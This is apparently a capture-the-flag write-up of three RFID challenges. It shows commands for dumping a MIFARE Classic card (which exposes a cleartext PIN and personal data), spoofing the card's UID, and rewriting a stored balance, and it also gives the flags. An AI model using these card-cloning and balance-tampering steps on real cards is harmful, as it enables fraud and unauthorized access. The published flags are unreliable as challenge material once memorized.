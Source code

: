 ```yaml
---
ai_date: '2025-04-27 05:25:14'
ai_summary: Exploited cleartext RFID data and UID spoofing to gain access, manipulated
  balance for flag
ai_tags:
- rfid
- uid-spoofing
- balance-manipulation
created: 2025-03-01T18:34
points: 1500
solves: 13
updated: 2025-03-18T02:28
---
```


Fun first time RFID challenge!
## RFID 1 - Cleartext

```bash
mfoc -O carddump.mdf
```

```
�X�bcdefghi��������i������QVRIQUNLQ1RGezBrTjB3SDRja1RoM0FUTSEhfQ==��������i��������������i��������������i��������������i��������������i��������������i��������������i��������������i��������������i������FIRSTNAME:ROGERLASTNAME:???BALANCE:0015$80c��������i������POSTCODE:H3G1M8PINCODE:6372BIRTH:30/06/1998��������i��������������i��������������i��������������i��������������i������
```

```flag
ATHACKCTF{0kN0wH4ckTh3ATM!!}
```

## RFID 2 - UIDentity Crisis

I renamed myself to Roger but couldn't get anything new out of the ATM machine.

---

Turns out admin forgot to include an image.

```bash
nfc-mfsetuid deadbeef
```

```flag
ATHACKCTF{Sp00fingUIDz}
```

## RFID 3 - Pay2Win

By editing the amount of money we have to 9900+, we can go to the ATM and buy a flag.

To write the new info to card, use this.

```bash
nfc-mfclassic w b carddump1.new.mdf carddump1.mdf f
```

```flag
ATHACKCTF{printf('$money$');}
```